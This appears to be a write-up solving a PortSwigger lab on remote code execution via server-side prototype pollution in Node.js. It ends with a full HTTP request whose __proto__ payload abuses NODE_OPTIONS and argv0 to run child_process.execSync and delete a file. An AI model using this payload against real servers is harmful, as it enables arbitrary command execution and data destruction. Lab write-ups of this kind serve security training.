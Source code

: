 
# Remote code execution via server-side prototype pollution

This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute Object.prototype in such a way that you can inject arbitrary system commands that are subsequently executed on the server.

To solve the lab:

- Find a prototype pollution source that you can use to add arbitrary properties to the global Object.prototype.

- Identify a gadget that you can use to inject and execute arbitrary system commands.

- Trigger remote execution of a command that deletes the file /home/carlos/morale.txt.

In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: wiener:peter

Hint: The command execution sink is only invoked when an admin user triggers vulnerable functionality on the site.

Note: When testing for server-side prototype pollution, it's possible to break application functionality or even bring down the server completely. If this happens to your lab, you can manually restart the server using the button provided in the lab banner. Remember that you're unlikely to have this option when testing real websites, so you should always use caution.



---------------------------------------------

References: 

- https://portswigger.net/web-security/prototype-pollution/server-side

- https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce



![img](images/Remote%20code%20execution%20via%20server-side%20prototype%20pollution/1.png)

---------------------------------------------

First I set the “shell” and “NODE_OPTIONS” properties so any time a process is created there is a DNS request to a Burp collaborator domain:



![img](images/Remote%20code%20execution%20via%20server-side%20prototype%20pollution/2.png)


In /admin, click “Run maintenance jobs”:



![img](images/Remote%20code%20execution%20via%20server-side%20prototype%20pollution/3.png)


And the domain is resolved:



![img](images/Remote%20code%20execution%20via%20server-side%20prototype%20pollution/4.png)


After some trial and error I could execute a command to delete the file with this payload:

```
POST /my-account/change-address HTTP/2

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"9w2wz2qtX8He4ofWjxuo5Lv3cGj49UjN","__proto__": {  "shell":"",    "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\"child_process\").execSync(\"rm /home/carlos/morale.txt\").toString())//"}}
```



![img](images/Remote%20code%20execution%20via%20server-side%20prototype%20pollution/5.png)